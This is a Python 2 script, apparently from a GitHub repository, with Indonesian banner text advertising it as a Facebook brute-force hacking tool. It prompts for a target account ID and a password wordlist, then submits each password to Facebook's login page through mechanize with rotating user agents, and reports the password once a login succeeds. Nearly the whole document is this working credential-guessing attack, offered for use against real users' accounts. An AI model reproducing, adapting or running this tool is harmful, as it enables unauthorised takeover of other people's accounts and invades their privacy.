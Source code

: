 #!usr
# -*- coding: UTF-8 -*-
# Mod by: iqbalz noobs
# team: life of programmer


import os
import sys
import time
import random
import cookielib
import mechanize

wd = "\033[90;1m" # dark
GL = "\033[96;1m" # Blue aqua
BB = "\033[34;1m" # Blue light
YY = "\033[33;1m" # Yellow light
GG = "\033[32;1m" # Green light
WW = "\033[0;1m"  # White light
RR = "\033[31;1m" # Red light
CC = "\033[36;1m" # Cyan light
B = "\033[34m"    # Blue
Y = "\033[33;1m"    # Yellow
G = "\033[32m"    # Green
W = "\033[0;1m"     # White
R = "\033[31m"    # Red
C = "\033[36;1m"    # Cyan

def runntxt(s):
        for noobs in s + '\n':
                sys.stdout.write(noobs)
                sys.stdout.flush()
                time.sleep(10. / 2100)


def banner():
    os.system('clear')
    print " "
    runntxt(GL+"              Assalamu'@laikum. ^_^")
    runntxt(WW+"     ___      _           _         _      __")
    runntxt(WW+"    |_ _|__ _| |__   __ _| |____   | |__  / _|")
    runntxt(GL+"     | |/ _` | '_ \ / _` | |_  /   | '_ \| |_")
    runntxt(GG+"     | | (_| | |_) | (_| | |/ /_   | |_) |  _|")
    runntxt(Y+"    |___\__, |_.__/ \__,_|_/___/___|_.__/|_|")
    runntxt(GG+"           |_| ")
    time.sleep(1.5)
    print GG+"  √=============================================√"
    print GL+"  |••••••   NEW TOOLS HACK FACEBOOK BF.   ••••••|"
    print GG+"  √=============================================√"
    print WW+"  |            MOD BY: IQBALZ NOOBS             |"
    print GL+"  |       Berdoa Dulu Sebelum Menggunakan       |"
    print WW+"  |            FACEBOOK: Iqbalznoobs            |"
    print Y+"  |             INSTAGRAM: IQBALZ5              |"
    print GL+"  |---------------------------------------------|"
    print GL+"  |        LIFE OF PROGRAMMER [ L.O.P ]         |"
    print GL+"  |---------------------------------------------|"
    print GG+"  √=============================================√"
    print GL+"  |•••••••••   HACK FACEBOOK MAS ^_^   •••••••••|"
    print GG+"  √=============================================√"

banner()

print wd+"         https://www.github.com/IqbalzNoobs "
print GG+"╭────\033[91m[\033[96m Masukkan ID\033[95m / \033[96mUsername Target\033[91m ] "
email_target = str(raw_input(GL+"\033[92m╰────➲\033[93m  "))
print " "
print "\033[92m╭────\033[91m[ \033[96mMasukkan File Wordlist \033[95m( pass.txt ) \033[91;1m]"
password_list = str(raw_input(GG+"╰────➲\033[93m "))
login = 'https://www.facebook.com/login.php?login_attempt=1'
useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Geck')]
# useragents = [('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 5.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36','Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36',)]

def pil():
                print GG+" "
                g = str(raw_input("[?] Hack Fb lagi..\033[93;1m[y/n]: "))
                if g == 'y' or g == 'Y':
                    os.system('python2 brute.py')
                elif g == 'n' or g == 'N':
                    print wd+"Keluar dari program..."
                    sys.exit()
                else:
                    print RR+"Pilih yang bener cuk..."
                    pil()

def edit_wordlist():

        print GG+" "
        ed = str(raw_input("[?] Edit wordlist cuk.? \033[96;1m[y/n]: "))
        if ed == 'y' or ed == 'Y':
                os.system('nano '+password_list)
                pil()
        elif ed == 'n' or ed == 'N':
                print wd+"Keluar Dari Program..."
                sys.exit()

        else:
                print RR+"Pilih yg bener cuk..."
                edit_wordlist()

def main():
        global noobs
        noobs = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        noobs.set_handle_robots(False)
        noobs.set_handle_redirect(True)
        noobs.set_cookiejar(cj)
        noobs.set_handle_equiv(True)
        noobs.set_handle_referer(True)
        noobs.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        runn_noobs()
        life()
        print " "
        print RR+" wordlist tidak ada yg cocok..."
        print " "
def iqbalz(iqbalz_password):
  try:
 	sys.stdout.write(GG+"\n[\033[91m+\033[92m]\033[91;1m [\033[97m"+email_target+"\033[91m]\033[90m Mencoba ==> \033[91m[\033[90;1m"+iqbalz_password)
	sys.stdout.flush()
	noobs.addheaders = [('User-agent', random.choice(useragents))]
	site = noobs.open(login)
	noobs.select_form(nr = 0)
	noobs.form['email'] = email_target
	noobs.form['pass'] = iqbalz_password
	tom = noobs.submit()
	mask = tom.geturl()
	if mask != login and (not 'login_attempt' in mask):
                        print " "
			print ("\033[96m                S U C C E S S")
			print "          P A S S W O R D  F I N D "
                  	print RR+"+-------------------------------------------+"
	         	print (RR+"#\033[97m ID / Email Target:\033[92m {}").format(email_target)
        	        print (RR+"#\033[97m Password Target:\033[92m {}").format(iqbalz_password)
        	        print " "
        	        raw_input(WW+"TEKAN ENTER UNTUK KELUAR...")
			sys.exit(1)
  
  
  except KeyboardInterrupt:
      print wd+"Stop......."
      edit_wordlist()
      sys.exit()    	    
def life():
	global iqbalz_password
	password_nob = open(password_list, "r")
	for iqbalz_password in password_nob:
		password_nob = iqbalz_password.replace("\n","")
		iqbalz(iqbalz_password)		

def runn_noobs():
         global password_list

         lop = GG+"""
                  `.-://////:-.`
              .:+o+:-..````..-:+o+:.
           `:o+-`                `:+o:`
         `/o:`                      `:o/`
        -s/`  .-..`            `..--` `/s-
       /o.   `:.`.-:----------:-.``:-   .o/
      /o`    .:`    `              --    `o/
     -s.     .:`                   --     .s-
     o/     .:`                     --     +o
    .s-     :.                      `:`    -s`
    .s.     :.                      `:`    .s.
    .s-     --                      .:     -s.
     o/     `-.                    `-.     /o
     -s.     `--`                `.-`     .s-
      /o` ----``..--..`    `...--.`      `o/
       /o. `----`  `-.      `-.         .o/
        -o:  -.......        ..       `:o-
         `:o:``....--        ..     `:o:`
           `:+/-`  `-        ..  `-/+:`
              `-/+///..````..://+/-`
                  `.-::////::-.` \033[91;1m
                \033[90;1mLife Of Programmer\033[91;1m
             Powered by:\033[97m Iqbalz Noobs
      """


         print lop
         nuub = open(password_list, 'r')
         nuub = nuub.readlines()
         print wd+" [#] ID / Username Target\033[97;1m: {}".format(email_target)
         print wd+" [#] JUmlah Password saat ini\033[97;1m:", len(nuub),'password'
         print wd+" [#] Tunggu Proses Cracking\033[97;1m.........."
         print " "

if __name__=='__main__':
	main()	
